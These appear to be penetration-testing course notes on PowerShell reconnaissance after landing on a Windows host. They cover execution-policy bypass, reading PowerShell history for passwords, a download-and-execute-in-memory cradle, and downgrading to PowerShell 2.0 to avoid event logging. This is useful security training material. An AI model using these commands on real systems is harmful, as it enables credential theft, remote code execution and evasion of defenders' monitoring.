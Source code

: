 ## Powershell
    
It provides an extensive framework for administering all facets of Windows systems and AD Environments, can be used to dig deep into systems and can be used on engagements to recon the host and network and send and receive files.
    
| Cmd-Let | Description |
| --- | --- |
| Get-Module | Lists available modules loaded for use. |
| Get-ExecutionPolicy -List | Will print the https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2 settings for each scope on a host. |
| Set-ExecutionPolicy Bypass -Scope Process | This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords. |
| Get-ChildItem Env: | ft Key, Value | Return environment values such as key paths, users, computer information, etc. |
| powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>" | This is a quick and easy way to download a file from the web using PowerShell and call it from memory. |
    
## OPSec Tactics
    
A few Operational security tactics that defenders are unaware of are that several versions of Powershell often exist on a host. If not uninstalled, they can still be used.
    
### Example
    
> Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while utilizing resources built into the hosts to our advantage.

### Checking Defenses.
    
These few commands will utilize the [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) and [sc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query) to help get an understanding of the host when it comes to Windows Firewall settings and to check the status of Windows Defender.
    
Firewall check - `netsh advfirewall show allprofiles`
    
Defender check cmd - `sc query windefend`
    
Checking the status and configuration settings - `Get-MpComputerStatus`
    
## Am I Alone?
    
When landing on a host for the first time, it's important to check and see if you are the only one logged in since if you take certain actions from a host someone else is logged on, there is potential for them to identify you.
    
If a popup window launches or a user is logged out of their session, they may report these actions or change their password, and we could lose our foothold.
    